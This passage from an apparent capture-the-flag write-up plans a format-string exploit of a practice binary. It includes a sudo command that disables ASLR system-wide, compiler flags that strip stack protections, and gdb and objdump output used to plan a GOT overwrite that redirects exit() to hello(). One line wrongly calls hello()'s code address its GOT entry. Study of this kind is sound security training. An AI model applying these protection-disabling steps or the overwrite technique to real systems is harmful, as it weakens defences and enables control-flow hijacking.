 #### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o format_4 format_4.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

Goal is to print out the following message by exploiting the format string vulnerability.

```nasm
gdb-peda$ disas hello
Dump of assembler code for function hello:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	sub    esp,0x18
   0x08048503 <+6>:	mov    DWORD PTR [esp],0x8048600
   0x0804850a <+13>:	call   0x80483c0 <puts@plt>
   0x0804850f <+18>:	mov    DWORD PTR [esp],0x1
   0x08048516 <+25>:	call   0x80483a0 <_exit@plt>
End of assembler dump.

gdb-peda$ x/s 0x8048600
0x8048600:	"code execution redirected! you win"
```

If we can overwrite the entry of the exit() function in the GOT (Global Offset Table) then we can manipulate program flow therefore hello() function would be called.

```
$ objdump -t ./format_4 | grep hello
080484fd g     F .text	0000001e              hello

$ objdump -TR ./format_4 | grep exit
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   exit
0804a010 R_386_JUMP_SLOT   _exit
0804a020 R_386_JUMP_SLOT   exit
```

As seen above,
exit() function has an entry in the GOT at **0804a020**.
hello() function has an entry in the GOT at **080484fd**.

#### 2.2 Quick Solution

Let's start by finding the right offset of our input parameter of printf() on the stack by stack popping to manipulate internal stack pointer.
